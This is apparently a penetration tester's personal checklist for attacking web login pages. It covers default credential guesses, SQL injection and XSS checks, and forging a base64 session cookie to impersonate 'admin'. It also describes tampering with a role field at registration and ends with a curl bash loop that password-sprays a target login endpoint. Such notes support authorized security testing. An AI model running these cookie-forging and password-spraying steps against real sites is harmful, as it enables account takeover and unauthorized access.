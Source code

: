 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://www.hackingarticles.in/multiple-ways-to-exploiting-http-authentication/

#### Guessing
admin:admin
administrator:administrator
admin:`NAMEOFTOOL`

#### Googling
- [ ] Google for Default Creds!!

#### SQLi
- [ ] Bypass login with SQLi (Try 1 field at a time, then both).
[[SQL Payload]]

- [ ] Inject into registration page, then login page
![[Pasted image 20220927104458.png | 750]]

![[Pasted image 20220927104516.png | 750]]

#### XSS
- [ ] Test for XSS.
[[7._XSS]]

#### Register a user - Cookie evaluation
Sometimes you just need to register as a new user, and evaluate after.

Check cookies

![[Pasted image 20220105201411.png]]

`eyJ1c2VybmFtZSI6ImFkbWluMiJ9`

```bash - kali
echo "eyJ1c2VybmFtZSI6ImFkbWluMiJ9" | base64 -d
```

![[Pasted image 20220105201601.png]]

```bash - kali
echo '{"username":"admin"}' | base64
```

`eyJ1c2VybmFtZSI6ImFkbWluIn0K`

![[Pasted image 20220105201823.png]]

#### Admin role assignment
Register a new user while proxy through Burp / ZAP.
Look at the response for a role assignment:
![[Pasted image 20220905125447.png]]
```
"role": "admin",
```

![[Pasted image 20220902153332.png]]

#### Login page password spray curl bash script
```bash - kali
for user in $(cat users.txt); do curl 'http://$TARGET/login' --data "{\"username\":\"${user}\",\"password\":\"password\"}" -H "Content-Type: application/json" 2>/dev/null | grep -v Unauthorized && echo $user ; done
```
